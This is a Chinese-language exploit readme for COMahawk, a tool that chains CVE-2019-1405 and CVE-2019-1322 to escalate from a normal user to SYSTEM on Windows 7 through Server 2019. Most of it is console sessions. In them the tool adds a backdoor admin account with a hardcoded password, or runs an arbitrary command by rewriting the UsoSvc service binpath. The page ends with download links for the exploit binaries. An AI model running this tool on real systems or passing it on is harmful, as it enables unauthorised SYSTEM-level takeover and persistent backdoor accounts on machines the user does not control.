

### 漏洞介绍

由NCC Group研究人员所发现的两个通过COM本地服务进行非法提权的漏洞。第一个漏洞CVE-2019-1405是COM服务中的一个逻辑错误，可让本地普通用户以LOCAL SERVICE身份执行任意命令。第二个漏洞CVE-2019-1322是一个简单的服务配置错误，可让本地SERVICE组中的任何用户重新配置以SYSTEM权限运行的服务（此漏洞也被其他研究人员发现）。当以上两个漏洞结合在一起时，就允许本地普通用户以SYSTEM权限执行任意命令。

全面检查了一些Windows服务,发现以LOCAL SERVICE或NETWORK SERVICE运行的所有用户都可以执行这种攻击。其中就包括前面我们提到的UPnP Device Host服务,这样我们就能以本地任意用户身份,结合使用CVE-2019-1405及CVE-2019-1322这两个漏洞,成功在Windows 10(1803到1903)系统上将权限提升至SYSTEM用户。

### 漏洞版本
Vendor 	Product 	Versions
Microsoft	Windows 10	-, 1607, 1709, 1803, 1809, 1903
Microsoft	Windows 7	-
Microsoft	Windows 8.1	-
Microsoft	Windows Rt 8.1	-
Microsoft	Windows Server 2008	-, R2
Microsoft	Windows Server 2012	-, R2
Microsoft	Windows Server 2016	-, 1803, 1903
Microsoft	Windows Server 2019	-

### 默认提权
```Bash
C:\Users\null\Desktop>COMahawk64.exe
[\] Progress:  1/9 2/9 3/9 4/9 5/9 6/9 7/9 8/9 9/9
[+] Hopefully k8gege:K8gege520 is added as an admin.

C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### 指定命令
```Bash
C:\Users\null\Desktop>COMahawk64.exe "net user k8gege K8gege123? /add"
[+] Executing command [ sc config UsoSvc binpath= "cmd.exe /c net user k8gege K8gege123? /add" ]
[\] Progress:  1/6 2/6 3/6 4/6 5/6 6/6
[+] Command executed.
C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### Win10提权
Teston Win10 X64 1803


### Exp

https://github.com/apt69/COMahawk

https://github.com/k8gege/K8tools/raw/master/Comahawk.rar
